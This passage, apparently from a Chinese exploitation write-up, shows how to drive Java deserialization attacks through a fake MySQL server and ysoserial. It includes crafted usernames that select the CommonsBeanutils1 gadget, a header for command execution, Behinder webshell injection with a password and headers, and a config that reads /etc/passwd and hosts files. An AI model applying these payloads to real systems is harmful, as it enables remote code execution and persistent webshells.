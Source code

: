 
但是在利用的时候遇到了点问题

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133344.png)

发现可能是将`' CommonsBeanutils1'`作为参数传入了`ysuserial.jar`一样的报错

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133346.png)

查看`fakeMySQL`端的完整命令

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133349.png)

去看server.py源码，发现这里是直接获取到`yso_type`参数传入`subprocess.Popen`函数

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133352.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133353.png)

对`subprocess.Popen`函数进行测试：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133354.png)

就是这里参数的问题了，后续发现，可以将`-g
CommonsBeanutils1`变成`-gCommonsBeanutils1`，这样ysoserial也可以正常工作

这里将用户名改成`yso_-gCommonsBeanutils1_-p EX-TomcatEcho`就可以了(当然，`yso_-
gCommonsBeanutils1_-pEX-TomcatEcho`也可行)

`X-Token-Data: whoami`作为命令输入点

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133355.png)

得到了命令回显

当然，还可以使用`EX-MS-TSMSFromThread-bx`模块进行注入冰蝎马，即可链接 密码为`su18`请求头为:

    
    
    Referer: http://su18.org/  
    X-SSRF-TOKEN: bx  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133357.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220929133358.png)

也可以注入哥斯拉内存马等等，包括最近比较火的Upgrade内存马、Executor内存马、Websocket内存马等，作者都进行了更新，不过貌似没有完全利用，期待作者后续更新

# 0x05 附件:

  1. 假MYSQL服务器的配置如下 config.json

    
    
    {  
        "config":{  
            "ysoserialPath":"ysuserial.jar",  
            "javaBinPath":"/usr/local/java8231/jdk1.8.0_231/bin/java8231",  
            "fileOutputDir":"./fileOutput/",  
            "displayFileContentOnScreen":true,  
            "saveToFile":true  
        },  
            "fileread":{  
            "win_ini":"c:\\windows\\win.ini",  
            "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",  
            "win":"c:\\windows\\",  
            "win_1":"c:\\1.txt",  
            "linux_passwd":"/etc/passwd",  
            "linux_hosts":"/etc/hosts",  
            "index_php":"index.php",  
            "ssrf":"x.x.x.x",  
            "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]  
        },"yso":{  